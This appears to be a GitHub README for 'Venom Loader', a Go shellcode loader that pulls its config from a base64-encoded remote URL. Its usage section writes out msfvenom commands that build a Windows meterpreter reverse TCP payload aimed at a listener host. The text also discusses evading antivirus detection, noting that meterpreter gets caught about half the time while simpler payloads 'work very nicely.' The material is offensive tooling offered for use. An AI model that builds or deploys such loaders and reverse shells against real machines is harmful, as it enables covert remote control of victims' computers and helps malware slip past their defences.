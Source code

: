 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
./builder.sh <http://IP/config> main.go
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
Keep in mind that the config is a json file that should be located in the same dir as the http server. This tries to be evasive but has various degrees of success with it. A meterpreter shell will be a coin toss on wether or not it gets caught but other payloads like popping calc, executing a fixed amount of commands work very nicely.
## To-Do

- Make a builder that automates creation of msf payload and base64 encoding it.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
